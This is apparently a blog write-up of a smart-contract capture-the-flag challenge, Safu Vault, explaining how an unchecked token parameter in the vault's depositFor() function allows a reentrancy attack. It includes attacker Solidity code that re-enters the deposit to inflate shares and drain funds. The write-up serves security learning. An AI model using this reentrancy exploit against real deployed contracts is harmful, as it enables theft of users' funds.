 ```yaml
---
title: "Mr Steal Yo Crypto — Safu Vault"
date: 2023-07-22
draft: false
description: "CTF - 2"
tags: ["CTF"]
series: ["CTF"]
series_order: 2
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```

This is the #2 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real-world exploits.
> Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement)

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Safu Vault

> Safu Labs has just released their SafuVault, the 'safest' yield generating vault of all time, or so their twitter account says.
> Their SafuVault expects deposits of USDC and has already gotten 10,000 USDC from users.
> You know the drill, drain the funds (at least 90%). You start with 10,000 USDC.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/safu-vault)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/2-safu-vault.sol)

## Review of the contracts

### SafuStrategy.sol

This contract is not complete; this is not a real implementation of a strategy. However, it contains the basics for a strategy.
As a simple user, except the function `beforeDeposit()` (this function is not useful), we can’t call the other functions. The accounts that are able to call the SafuStrategy contract are the vault and the whitelisted address.

### SafuVault.sol

This is the core of our challenge, I will make a few comments for almost all the functions:
- `want()`, `available()`, `balance()`: there are simple getters.
- `deposit()`: There could be a potential issue if this function is deployed in mainnet, with a front-run attack. However, in our case, there is nothing valuable.
- `earn()`: nothing to say.
- `withdrawAll()`, `withdraw()`: the implementation seems correct.
- `depositFor()`: it’s almost the same implementation as deposit(). Except this time, we are using the parameter `address token` as the collateral and not the `want()` address. As I already saw in some other CTF, when a parameter is used for transferring tokens, there is a critical vulnerability.

```solidity
/// @dev deposit funds into the system for other user
function depositFor(
    address token,
    uint256 _amount,
    address user
) public {
    strategy.beforeDeposit();

    uint256 _pool = balance();
    IERC20(token).safeTransferFrom(msg.sender, address(this), _amount);
    earn();
    uint256 _after = balance();
    _amount = _after - _pool; // Additional check for deflationary tokens

    uint256 shares;
    if (totalSupply() == 0) {
        shares = _amount;
    } else {
        shares = (_amount * totalSupply()) / (_pool);
    }
    _mint(user, shares);
}
```

With the obvious vulnerability that we saw, I think we can already start for the exploit.

## Exploit the vulnerability

Our exploit will start from `depositFor()`. We have the possibility to inflate our deposit, and then we will receive more shares than it supposed to be.

Let me explain a bit more, when the line `IERC20(token).safeTransferFrom(msg.sender, address(this), _amount);` will be executed, we will go to the token contract address and check if there is the function `transferFrom`. It means that we can create a contract having this function. Inside the function, we can do everything that we want. In order to inflate our deposit, through `safeTransferFrom()` will make a reentrancy attack:

```solidity
function transferFrom(
    address from,
    address to,
    uint256 _amount
) public returns (bool) {
    if (count < reentrancy_count) { // reentrancy_count condition
        count++;
        safuVault.depositFor(address(this), uint256(0), owner); // Here is the reentrancy
        usdc.transfer(address(safuVault), amount); // increase value _after of depositFor()

        /*
        Scheme example:
        _pool 10_000
        _pool 10_000
        _pool 10_000
        _pool 10_000
        _pool 10_000  
        _after 10_100 -> amount = 100
        _after 10_200 -> amount = 200
        _after 10_300 -> amount = 300
        _after 10_400 -> amount = 400
        _after 10_500 -> amount = 500
        */
    }
    return true;
}
```

As we can see, we entered `n` times inside `depositFor()`, then we send some USDC. So for `n` times, there will be a difference between the variable `_pool` and `_after`. This is how we are able to inflate our deposit and thus inflate our shares tokens.

So that’s what we did, and it worked. You can have a look [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/2-safu-vault.sol).

## Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me for writing articles on CTF ^^.